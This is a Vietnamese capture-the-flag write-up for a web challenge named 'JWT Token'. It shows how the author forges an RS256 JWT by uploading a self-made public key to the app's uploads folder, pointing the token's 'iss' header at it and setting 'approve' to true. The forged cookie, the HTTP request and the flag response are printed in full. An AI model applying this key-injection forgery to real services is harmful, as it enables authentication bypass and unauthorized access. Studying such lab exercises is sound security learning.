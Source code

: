 ## JWT Token

Adrress: http://172.104.49.143:1574/

Đăng nhập với username một cách bình thường là `admin` :)))

<img src = "https://user-images.githubusercontent.com/93431512/193450231-a8541ebb-04b1-4385-9f3c-940cc067e9cb.png" width="50%">

Và cũng như một cách bình thường khác ta upload file

<img src = "https://user-images.githubusercontent.com/93431512/193450277-04df90a0-2892-4796-8519-bf050d271189.png" width="50%">

Quay trở lại trang `/` ta thấy có danh sách 1 số file đã up và nó có dạng `website/uploads/<username>/<filename>`

<img src = "https://user-images.githubusercontent.com/93431512/193450313-52fc3f5b-ae2e-4e0d-8152-85de4d99a103.png" width="50%">

Ở đây mình nghĩ ngay đến việc up shell và ghi `hacked by tronghieu220403` nhưng mà mãi k payload được nên nghĩ cách khác =)))

Để ý lại history có cái getflag.js mình vào thử

<img src = "https://user-images.githubusercontent.com/93431512/193450418-6423eabe-25d7-4946-a5ad-feedd95d045b.png" width="50%">

Đoạn Javascript của nó:
```Javascript
function getFiles(){
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "getflag", true);
    xhr.onload = function() {
        if (xhr.status === 200) {
            var flag = xhr.responseText.split("\n");
            var html = "";
            if (flag.length > 0) {
                    html += "<li>" + flag + "</li>";
                }
            document.getElementById("flag").innerHTML = html;
        } else {
            alert("Error: " + xhr.status);
        }
    }
    xhr.send();
}
```

Mình có check `./getflag` thì

<img src = "https://user-images.githubusercontent.com/93431512/193450478-3f939786-770a-4554-a11e-badb6f104b1b.png" width="50%">

Check Request kiểm tra Cookie:
```http
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImlzcyI6Imh0dHA6Ly9sb2NhbGhvc3Q6NTAwMC9zdGF0aWMva2V5cy5wdWIifQ.eyJ1c2VybmFtZSI6ImFkbWluIiwiYXBwcm92ZSI6ZmFsc2V9.KnO6VyVQ12jQ1uSJ8DmbxHDjMWi1-qkwx_EoVGmcpVJaP8E5g_YSl5t30Ij6cQQVFlfjMjJB0OFWm3rJtGcxvzcqgHRBZcPEPnoSPVgtq7GEa9VtsyjRYSMl7oUeiOJrnC0PifPt8KeAZRO43ZNnARULOxGH2Ntmqx6I7is4nPY1rkuz09_FxNMgiZ07gx8CBkKs7F8tNTqsIIWgEXVNFxB9QNlUokoxLjbr85muEz48-rpzqL74sKYA_pvhiwh7IoCRVg5WWrXUTEUIiA-tpX6q-CaImSSUtYL7CEw17O22hEggLwNrXBsJ17ApyaYkbU99ucB9HfMFqwdCBxudUBMagJihGLQe2w3wj_HJiYliIjdAk88l270Yjtm42OoeVW6Pf2XSR-d3ygjvNjjyxv2mBt6_443vx9nPTZ8TjA28mxGvRTs1nRHHmvDDpOLGT5WW6yApvRGoulFEsvrQdmKxPW3udGAy-xfVOjkWe_b7OaY2O4sFLKklR23Dz37H
```

Đây là JWT Cookie (Đề bài là JWT Token mà), sử dụng [JWT Tool](https://token.dev)

<img src = "https://user-images.githubusercontent.com/93431512/193450654-e6e9ca57-a3fe-43f1-9dd9-101e5893d829.png" width="50%">

Như vậy muốn có flag ta cần đổi giá trị `approve` thành `True` 

Nhưng mà mọi việc đâu dễ thế, ta cần đổi giá trị nhưng mà vẫn phải thỏa mãn Signature RS256

**Exploit:** Mình có thể tải xuống Pubkey và tìm trở lại PrivateKey, nhưng mà điều đó sẽ rất khó, cái gì khó quá thì bỏ qua :vvv

Vậy nếu như mình thay Pubkey thì sao nhỉ :)? rất hay trên trang Token.dev có sẵn Private và Public từ Template, sử dụng key đó luôn, bằng cách upload file pub mới lên

<img src = "https://user-images.githubusercontent.com/93431512/193451020-685bb621-4436-49d6-aab1-322c18dc6db5.png" width="50%">

Vậy ta đã có token mới, let's check :))

```http
GET /getflag HTTP/1.1
Host: 172.104.49.143:1574
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImlzcyI6Imh0dHA6Ly9sb2NhbGhvc3Q6NTAwMC91cGxvYWRzL2FkbWluL2hpaGkudHh0In0.eyJ1c2VybmFtZSI6ImFkbWluIiwiYXBwcm92ZSI6dHJ1ZX0.2y8teT0Yu5YlRuencanFDXbmvDkdbfgZVbtsfzCRlcBZSPtMNN0Y8dmR5yumoYPrR5SJbyDE454Sewai_nW_q7FYm0a-hrW4GdxcWvnFYNkNq-58_1NJ6XKjGUZiT89lNpMKevvYvbcEiO1fspg_10Pu9_T7PBsRw2KeXC_Vl1TuNSL5xKzdFiLxRdKdOr33QkoWqe0k4S_rp6jcbXlz2AMITcDDT5E8nWzvkPSycSke6klJGyN2Mf1H7CPzTN96d90m3fhbzKkf5a82jPo4R1IGth2b0fFLTMhCRHmhmX5k3gRswWkwZvLxiRmGy6Svtras6ldRWDMzIrhADujY1Q
Connection: close
```

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.10.5
Date: Sun, 02 Oct 2022 11:12:31 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 44
Connection: close

FLAG: Flag{JWT_token_is_the_best_token_ever}
```
